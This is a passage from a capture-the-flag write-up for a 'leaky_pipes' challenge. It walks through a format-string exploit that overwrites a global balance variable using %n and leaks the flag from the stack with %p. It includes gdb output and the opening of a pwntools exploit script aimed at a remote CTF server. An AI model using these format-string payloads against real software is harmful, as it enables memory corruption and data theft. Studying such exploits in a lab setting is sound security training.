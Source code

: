 While writing to memory, we must keep a few things in mind, the offset, the address and the value to overwrite it with. Our offset being 6, adress being that of the recently obtained global variable bal and the value to overwrite it being 200. Our payload will look something like this:

```python=
pay = '%{}p'.format(200-7)  # print (200 - 7) characters to the screen. 
pay += 'c'*7      # print 7 characters to the screen. 
pay += '%8$n'     # Find the offset where address of bal is written to memory. 
pay += p64(bal)   # Write the address of bal to memory.
```

Here is how it looks like in memory!![memory](https://i.imgur.com/Rkf58fb.png)

Thus we see that the address of bal is present at the 8th offset. Another way to calculate would be: `(0x7ffcd0ad0150 - 0x7ffcd0ad0140)//8 + 6`, where `0x7ffcd0ad0150` is where address of bal is written, `0x7ffcd0ad0140` is where our input string is stored, all on the stack. Once we overwrite we can check the value now stored in `bal` to verify.

```
gdb-peda$ x/x 0x55efa9bb3010
0x55efa9bb3010 <bal>: 0x00000000000000c8
```

##### Obtain the flag:

Now that we have leaked and written to memory, once the check passes, `use_tapes` will be called where our next task is to simply leak the flag. Similar to as shown above we can either use '%s' or a '%p' format specifier to leak the flag string. If we are making use of '%p' to leak, we need to be use of converting from hex to string! To find the offset let's give a string of '%p' and see where the flag could be on the stack! `payload = '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'`. Output:

```
0x7fb885c53a03 (nil) 0x7fb885b79142 0x7ffcd0ad0120 (nil) (nil) 0x55efaad082a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x25 0x7fb885afc013 0x667b6a6674636e69 
```

Thus we can find our input string at the 8th offset or if we look closely, we can find that value leaked at the 16th offset is nothing but our flag! Thus to just leak the flag, our payload can be, `payload = %16$p %17$p %18$p %19$p %20$p %21$p`, while running on the server.

#### Exploit:

```python
from pwn import *

context.arch = 'x86_64'
#p = process('./leaky_pipes')

p = remote('gc1.eng.run', 31584)

#gdb.attach(p)

p.recv()
p.sendline('1')
pay = 'a'*8 + ' %18$p'
p.sendline(pay)

p.recvuntil('aaaaaaaa ')
leak = p.recvline()[:-1]

bal = int(leak, 16) + 0x2ab0
info("bal: %s", hex(bal))

p.sendline('1')

pay = '%{}p'.format(200-7)  # print (200 - 7) characters to the screen. 
pay += 'c'*7      # print 7 characters to the screen. 
```